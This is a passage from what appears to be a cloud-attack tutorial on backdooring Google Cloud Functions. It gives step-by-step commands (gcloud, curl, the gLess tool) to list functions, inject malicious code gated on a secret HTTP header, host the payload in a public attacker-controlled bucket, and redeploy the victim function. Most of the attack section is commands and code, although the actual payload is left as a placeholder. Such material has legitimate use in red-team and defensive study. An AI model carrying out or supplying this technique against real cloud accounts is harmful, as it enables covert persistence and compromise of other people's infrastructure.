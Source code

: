 You can identify the Entry Point of the target function by looking at the Source Code of the Function, if you can't you can just list the Function details using Cloud Function API (gRPC & REST) and find the entrypoint.

Permissions Required to list the Function details.

- cloudfunctions.functions.list

```powershell
# Cloud Function API (gRPC) - gLess 
git clone https://github.com/anrbn/gLess
cd gLess
py.exe .\main.py --project-id <project-id> --list

# Cloud Function API (REST) - curl
curl -s -H "Authorization: Bearer <token>" -H "Content-Type: application/json" "https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/-/functions"
```

<p><img src="https://drive.google.com/uc?id=1XsPgvvrkRoxgbctSbz0YYBJOt07fUfCW"></p>

#### III. Insert the Malicious code using conditions (if-else)

Insert the malicious code using conditional statements (if-else) in the next line after the entry point, import required modules and update the requirements.txt file.  

```python
<entrypoint>():
    if request.headers.get('my-header') == 'anirban-gcp':
        <malicious code>
    else:
        <put the rest of the original code here>
```
<p><img src="https://drive.google.com/uc?id=1IS2RActgusEsQ-Ftwi8hvFQ2cw5TxSA_"></p>

With the Malicious source code ready, we can now update the Cloud Function. Before you update the Malicious source code, make sure you have a copy of the original Cloud Function code that you're targeting, it'll be required in the next step.

Pack the Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account (not the same account where you're exploiting the Cloud Function) you have full access to (Editor) and make it public. Copy the gsutil link of the malicious zip file.

Once you have the gsutil URI of the malicious zip file go ahead Update the target Cloud Function via any method (gCloud or Cloud Function API)

### Updating and Setting IAM Policy to a Cloud Function via gCloud or Cloud Function API (gRPC & REST)

```powershell
# gcloud
gcloud functions deploy <target-function-name> --runtime=python38 --source=<gs-link-to-malicious-zipped-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>

# Cloud Function API (gRPC) - gLess
git clone https://github.com/anrbn/gLess
cd gLess
py.exe .\main.py --project-id <project-id> --location <region> --function-name <target-function-name> --gsutil-uri <gsutil-uri> --function-entry-point <entry-point> --service-account <sa-account> --update
```
After successful update of the Cloud Function, Invoke the Cloud Function again to see if it's working as expected and if the Malicious code is executing. 
